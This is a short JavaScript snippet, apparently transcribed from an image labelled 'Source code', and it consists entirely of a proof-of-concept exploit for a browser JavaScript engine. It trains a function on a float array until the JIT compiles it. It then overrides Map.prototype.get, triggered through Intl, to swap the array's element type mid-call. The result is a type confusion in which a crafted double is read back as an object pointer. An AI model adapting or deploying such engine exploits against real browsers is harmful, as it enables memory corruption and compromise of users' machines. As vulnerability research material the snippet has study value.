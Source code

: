 
function opt(arr, obj) {
    arr[0] = 1.1;
    obj.x;
    arr[0] = 2.3023e-320;
}

let arr = [1.1];
for (let i = 0; i < 0x10000; i++) {
    opt(arr, {});
}

let get = Map.prototype.get;
Map.prototype.get = function (key) {
    Map.prototype.get = get;

    arr[0] = {};

    return this.get(key);
};

opt(arr, Intl);

alert(arr[0]);

